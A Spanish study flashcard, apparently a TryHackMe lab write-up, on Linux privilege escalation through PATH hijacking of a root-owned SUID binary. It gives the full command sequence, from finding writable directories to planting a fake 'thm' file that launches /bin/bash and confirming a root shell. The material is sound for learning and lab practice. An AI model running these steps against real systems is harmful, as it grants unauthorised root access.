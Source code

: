 ### Flashcard — Escalada de privilegios con PATH hijacking (TryHackMe)

**Contexto**

* Binario SUID (`test`) ejecuta un comando externo (`thm`).
* Directorio `/home/murdoch` es world-writable.
* PATH controlable por el usuario.

---

**Procedimiento**

1. Revisar permisos y directorios escribibles:

   ```bash
   find / -writable 2>/dev/null
   ```

2. Detectar binario SUID sospechoso:

   ```bash
   ls -l /home/murdoch/test
   -rwsr-xr-x 1 root root ...
   ```

3. Modificar el PATH para priorizar `/home/murdoch`:

   ```bash
   export PATH=/home/murdoch:$PATH
   ```

4. Crear binario malicioso que sustituya al comando esperado:

   ```bash
   echo "/bin/bash" > thm
   chmod +x thm
   ```

5. Ejecutar el SUID:

   ```bash
   ./test
   ```

6. Confirmar escalada:

   ```bash
   id
   uid=0(root) gid=0(root) groups=0(root),1001(karen)
   ```

---

**Clave técnica**

* El binario SUID `test` intenta ejecutar `thm` sin ruta absoluta.
* Como root respeta el `$PATH` del usuario, carga nuestro binario malicioso.
* Resultado: shell root.

---

